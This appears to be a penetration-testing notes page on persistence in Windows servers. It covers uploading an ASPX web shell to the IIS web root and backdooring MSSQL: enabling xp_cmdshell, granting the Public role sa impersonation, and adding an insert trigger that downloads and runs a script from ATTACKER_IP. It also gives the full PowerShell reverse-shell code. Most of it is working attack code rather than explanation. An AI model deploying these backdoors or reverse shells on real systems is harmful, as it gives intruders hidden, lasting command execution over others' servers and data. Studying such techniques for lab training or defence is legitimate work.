

# Persisting Through Existing Services

## Using Web Shells

The usual way of achieving persistence in a web server is by uploading a web shell to the web directory.\
Upload the [.aspx](https://github.com/tennc/webshell/blob/master/fuzzdb-webshell/asp/cmdasp.aspx) shell into web directory `C:\inetpub\wwwroot`&#x20;

We can then run commands from the web server :

<figure><figcaption></figcaption></figure>

## Using MSSQL as a Backdoor

`triggers` in MSSQL allow you to bind actions to be performed when specific events occur in the database. Before creating the trigger, we must first reconfigure a few things on the database. First, we need to enable the xp\_cmdshell stored procedure.

Enabling xp\_cmdshell;

```
sp_configure 'Show Advanced Options',1;
RECONFIGURE;
GO

sp_configure 'xp_cmdshell',1;
RECONFIGURE;
GO
```

By default, only database users with sysadmin role can run xp\_cmdshell, lets change this permission such that any website accessing the database can run xp\_cmdshell.

```
USE master

GRANT IMPERSONATE ON LOGIN::sa to [Public];
```

Finally, create trigger as;

```
USE DATABASE_NAME
CREATE TRIGGER [sql_backdoor]
ON HRDB.dbo.Employees 
FOR INSERT AS

EXECUTE AS LOGIN = 'sa'
EXEC master..xp_cmdshell 'Powershell -c "IEX(New-Object net.webclient).downloadstring(''http://ATTACKER_IP:8000/evilscript.ps1'')"';
```

content of `evilscript.ps1`

```
$client = New-Object System.Net.Sockets.TCPClient("ATTACKER_IP",4454);

$stream = $client.GetStream();
[byte[]]$bytes = 0..65535|%{0};
while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){
    $data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);
    $sendback = (iex $data 2>&1 | Out-String );
    $sendback2 = $sendback + "PS " + (pwd).Path + "> ";
    $sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);
    $stream.Write($sendbyte,0,$sendbyte.Length);
    $stream.Flush()
};

$client.Close()
```

